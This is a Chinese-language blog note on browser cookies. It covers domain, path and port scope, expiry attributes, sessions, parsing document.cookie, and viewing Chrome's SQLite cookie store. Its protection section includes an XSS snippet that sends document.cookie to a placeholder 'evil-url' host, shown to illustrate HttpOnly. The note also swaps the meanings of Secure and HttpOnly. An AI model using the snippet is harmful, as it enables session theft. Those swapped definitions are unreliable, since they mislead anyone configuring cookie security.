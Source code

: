 ```yaml
---
js 基础 -- cookie
---
```


# cookie

处理业务需求遇到过如下几个问题，有必要复盘对 cookie 做个汇总：

- cookie 的存储受 domain 和 path 影响，那 port 端口是会影响？
- js 如何获取浏览器 cookie？
- cookie 的失效时间，以及 maxAge 和 Expires 的区别？
- ...

先介绍下 cookie

HTTP cookie 是当用户访问网页时，由服务端给客户端发送并存储的一个小数据片，由于 HTTP 是无状态的，所以通过 cookie 方式持久化一些有特殊业务作用的数据信息（比如，购物车记录、用户校验信息等）

## cookie 几个重要属性

![cookie 几个重要属性](https://github.com/eminoda/myBlog/blob/master/read_note/imgs/js_base/cookies.png?raw=true)


### Domain 和 Path

这两个属性都关系到存储 cookie 的存储域。

基于 cookie 的域名安全机制 **同源策略**，www.a.com 域下是不能够访问 www.b.com 下的 cookie 信息的。

但要注意如果 cookie 存放在顶级域名（top domain）下，www.a.com 是能够访问到 a.com 的信息。

同样的，path 路径如果设置了 /page/user ，那 /page/shop 就拿不到前者的 cookie 信息，最好就设置 / 根路径。

再说下 port

可能你在测试环境部署多套项目，即使一个 ip 不同端口， cookie 也会公用。

### Expires 和 Max-Age

Expires 和 Max-Age 的设置都可以使 cookie 失效过期，只是前者是一个 Date 的日期；后者为过期的秒数，低版本 IE （6，7，8）不支持此属性，绝大多数浏览器都支持此两者属性，并优先支持 Max-Age。

值得注意的，不同的时区 TimeZone，会导致记录到浏览器的过期时间不同，比如：GMT（格林尼治平时），UTC（协调世界时）

````js
new Date(); // Sun Jun 02 2019 23:23:50 GMT+0800 (中国标准时间)
new Date().toUTCString(); // Sun, 02 Jun 2019 15:24:01 GMT
new Date().toGMTString(); // Sun, 02 Jun 2019 15:33:46 GMT

// 另外还有 ISO 标准的时间输出
new Date().toISOString(); // 2019-06-02T15:37:54.607Z
````

另外，前两天遇到 Node 端重写 cookie，由于 java Expires 过期时间的输出“不正确”，导致 koa 的 cookie 解析时间失败，临时做了如下调整：

````js
ctx.cookies.set('name', 'tobi', {
    path: '/',
    domain: 'foo.com',
    expires: new Date((new Date().getTime() + maxAge * 1000)).toUTCString() // maxAge 后端 java 返回获得
});
````

### Secure and HttpOnly

这是从安全的角度的两个属性，如果设置了，前者 Secure 会让浏览器无法通过 javascript 来获取到 cookie 信息；后者 HttpOnly 会让 cookie 信息只在 Https 协议中传输。

## session

与 cookie 不同，前者存放在客户端，后者是服务器生成并记录于浏览器（内存）中的，也就是常说的 session cookie，在浏览器关闭后销毁。 session 是和服务端一同“配合”让数据持久化的技术方案，都是解决 http 无状态这类问题。

服务端向客户端浏览器丢个 sessionId （比如，Tomcat 里的 JESSIONID），每次 http 请求，都会把当前会话的 sessionId 传给服务端，服务端校验自己生成的 sessionId 和客户端的 sessionId 做比对来实现业务校验功能。

当然浏览器关闭后，本地 session 域保存的东西就没有了，但服务器生成的 sessionId 过期时间取决于服务器设置的保存时间。

## 怎么通过 js 获取 cookie

````js
document.cookie // 即可输出所有 cookie
````

利用正则遍历出所有 cookie

````js
let cookies = document.cookie;
let cRE = /(\w+)=(\w+);/g; // 参考
let result = cRE.exec(cookies);
while(result){
    console.log(`key:${result[1]},value:${result[2]}`);
    result = cRE.exec(cookies);;
}
````

也可以通过 document.cookie.split('; '); 这种简单的方法进行切割分组（npm cookie 就是这样做的）

## cookie 的保护

### 属性入手
对于设置 cookie 几个属性，当然不要忽略 Secure and HttpOnly 这两个属性。

比如设置 HttpOnly，就能在 xss 攻击上起到效果。

````js
var img = document.createElement('img');
img.src = 'http://evil-url?c=' + encodeURIComponent(document.cookie); // 获取不到 cookie
document.getElementsByTagName('body')[0].appendChild(img);
````

### 不要永久缓存
对每个 cookie 设置符合业务需求的过期时间，同时服务端要有个主动清除 cookie 的逻辑功能，以便万不得已下线所有用户，重新请求 cookie 信息。

### 加密
通常我们不会对 cookie 信息进行加密，但既然是本地数据就很容易被人模拟。

为了增加网站安全，可以的话做点 Token 机制的安全手段

### 不要放敏感的信息
该从数据库查的还是查下，安全性上不要吝啬性能消耗。cookie 尽量不要放敏感信息，密码等数据。

## 怎么查看 Chrome 的 Cookie？

当然大家都是专内人士，可以 F12 查看到 cookie 信息。但具体本地的 cookie 存放在哪里呢？

这里介绍个工具 sqlite

> SQLite是一个进程内的库，实现了自给自足的、无服务器的、零配置的、事务性的 SQL 数据库引擎。它是一个零配置的数据库，这意味着与其他数据库一样，您不需要在系统中配置。
就像其他数据库，SQLite 引擎不是一个独立的进程，可以按应用程序需求进行静态或动态连接。SQLite 直接访问其存储文件。

当然我不是转玩这东西的，不过你要知道 chrome 的 cookie 就是靠 sqlite 存放在你的电脑里。

拿 window10 举例，路径在：C:\Users\Administrator\AppData\Local\Google\Chrome\User Data\Default\Cookie (当然这个“数据库”文件你普通方式打开是乱码)

现在简单说下怎么把 cookie 的东西展示出来：

1. 下载并安装 sqlite3
   
    如果你是 window 电脑，就找这个栏目下载 [Precompiled Binaries for Windows](https://www.sqlite.org/download.html)，根据自己系统下载对应的 dll 并放到最后的 sqlite-tools-xxx 中。

2. 执行命令查看

    ![对应命令](https://github.com/eminoda/myBlog/blob/master/read_note/imgs/js_base/sqlite3.png?raw=true)

    根据上图能大概了解 cookie 的表格定义，和本地数据信息（不过这些信息都加密的）

## 参考
> 我只是知识点的“加工者”，更多内容请查阅原文链接 :thought_balloon: ，同时感谢原作者的付出：

- [HTTP_cookie wiki](https://en.wikipedia.org/wiki/HTTP_cookie)
- [SQLite 简介](https://www.runoob.com/sqlite/sqlite-intro.html)
- [SQLite 安装](https://www.runoob.com/sqlite/sqlite-installation.html)
- [Set-Cookie MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie)
- [Cookie 与 Cookie劫持](https://g2ex.github.io/2015/06/29/Cookie-and-Cookie-Injection/)